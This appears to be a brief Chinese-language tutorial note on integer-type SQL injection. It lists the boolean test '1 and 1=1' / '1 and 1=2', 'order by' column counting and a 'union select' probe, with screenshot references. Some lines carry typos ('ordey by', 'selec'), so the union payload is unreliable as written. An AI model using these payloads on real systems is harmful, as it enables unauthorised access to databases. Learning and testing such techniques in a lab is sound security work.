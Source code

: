 # 整数型注入

## 判断是否存在

```
1 and 1=1
1 and 1=2
```

## 查询列数

1.  ordey by

   ```
   1 order by 1
   1 order by 2
   ```

   ![](assets/PixPin_2025-05-23_17-39-57.png)

```
1 order by 3
```

![](assets/PixPin_2025-05-23_17-41-05.png)

2. union select

   ```
   1 union selec 1,2,3
   ```
